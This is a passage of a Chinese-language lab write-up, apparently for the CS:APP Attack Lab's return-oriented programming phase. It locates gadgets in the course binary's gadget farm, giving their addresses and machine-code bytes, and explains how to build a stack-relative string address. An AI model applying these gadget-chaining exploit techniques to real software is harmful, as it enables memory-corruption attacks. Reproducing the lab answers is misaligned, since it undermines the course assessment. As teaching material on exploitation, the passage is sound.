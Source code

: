 我们逐句进行改写。

##### 5.4.1 第 1 句指令

```asm
mov    $0x5561dca8,%rdi
```

由 [5.3](#53-解题思路) 节的分析，我们不能直接得到字符串的地址，因此需要利用 `movq`、`movl` 等指令将 `%rsp` 的值传给某个寄存器。

当然，此时这个寄存器保存的值并不是字符串的地址。于是我们需要为这个地址加上一个偏移量 `offset`，从而得到字符串的实际地址。但字符串将保存在所有栈中保存内容的最后，因此 `offset` 的值我们最后才能得到。

###### 5.4.1.1 第 3 个 gadget

注意到 gadget farm 中函数 `addval_190` 对应的汇编语句：

```asm
0000000000401a03 <addval_190>:
  401a03:   8d 87 41 48 89 e0       lea    -0x1f76b7bf(%rdi),%eax
  401a09:   c3                      retq
```

其中机器码 `48 89 e0 c3` 对应汇编指令：

```asm
movq   %rsp,%rax
ret
```

该指令的地址为 `0x401a06`。

###### 5.4.1.2 第 2 个 gadget

由 [4.4.1.2](#4412-第-2-个-gadget) 节，第 2 个 gadget 中有汇编指令：

```asm
movq   %rax,%rdi
ret
```

该指令的地址为 `0x4019a2`。

###### 5.4.1.3 第 4 个 gadget

惊奇地注意到 gadget farm 中函数 `add_xy` 对应的汇编语句（竟然还有这种函数）：

```asm
00000000004019d6 <add_xy>:
  4019d6:   48 8d 04 37             lea    (%rdi,%rsi,1),%rax
  4019da:   c3                      retq
```

其对应汇编指令：

```asm
leaq   (%rdi,%rsi,1),%rax
ret
```

该指令的地址为 `0x4019d6`。
